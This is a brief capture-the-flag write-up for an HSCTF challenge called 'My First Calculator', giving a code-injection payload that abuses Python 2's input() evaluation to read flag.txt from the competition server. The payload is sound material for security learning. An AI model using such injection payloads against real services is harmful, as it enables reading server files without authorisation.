 # My First Calculator

I'm really new to python. Please don't break my calculator!
nc misc.hsctf.com 7001
There is a flag.txt on the server.

## Solution

Use this payload to bypass input() function in python 2 and get the flag:

```
{eval(open('flag.txt','r').read())}
```